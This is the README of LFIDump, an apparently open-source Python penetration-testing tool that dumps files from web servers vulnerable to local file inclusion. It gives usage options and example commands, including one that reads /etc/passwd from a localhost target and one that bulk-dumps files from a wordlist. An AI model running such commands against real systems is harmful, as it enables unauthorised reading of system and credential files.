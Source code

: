 # LFIDump

<p align="center">
  <img alt="GitHub release (latest by date)" src="https://img.shields.io/github/v/release/p0dalirius/LFIDump">
  <a href="https://twitter.com/intent/follow?screen_name=podalirius_" title="Follow"><img src="https://img.shields.io/twitter/follow/podalirius_?label=Podalirius&style=social"></a>
  <br>
</p>

A simple python script to dump remote files through a local file read or local file inclusion web vulnerability.

![](./.github/example.gif)

## Features

 - [x] Dump a single file with `-f /path/to/remote/file.txt`
 - [x] Dump lots of files from a wordlist with `-F /path/to/local/wordlist.txt`
 - [x] Insecure mode (for broken SSL/TLS) with `-k/--insecure`
 - [x] Custom local dump dir with `-d/--dump-dir`

## Usage

```
$ ./LFIDump.py -h
usage: LFIDump.py [-h] [-v] [-s] -u URL [-f FILE | -F FILELIST] [-D DUMP_DIR] [-k]

Description message

optional arguments:
  -h, --help            show this help message and exit
  -v, --verbose         Verbose mode. (default: False)
  -s, --only-success    Only print successful read file attempts.
  -u URL, --url URL     URL to connect to. (example: http://localhost/?page=LFIPATH)
  -f FILE, --file FILE  Remote file to read.
  -F FILELIST, --filelist FILELIST
                        File containing a list of paths to files to read remotely.
  -D DUMP_DIR, --dump-dir DUMP_DIR
                        Directory where the dumped files will be stored.
  -k, --insecure        Allow insecure server connections when using SSL (default: False)
```

## Examples

 + Dump a single file
    ```
    ./LFIDump.py -u "http://localhost:8000/lfi.php?page=LFIPATH" -f /etc/passwd
    ```
   
 + Dump files from a wordlist
    ```
    ./LFIDump.py -u "http://localhost:8000/lfi.php?page=LFIPATH" -F ./wordlists/all.txt
    ```

## Contributing

Pull requests are welcome. Feel free to open an issue if you want to add other features.


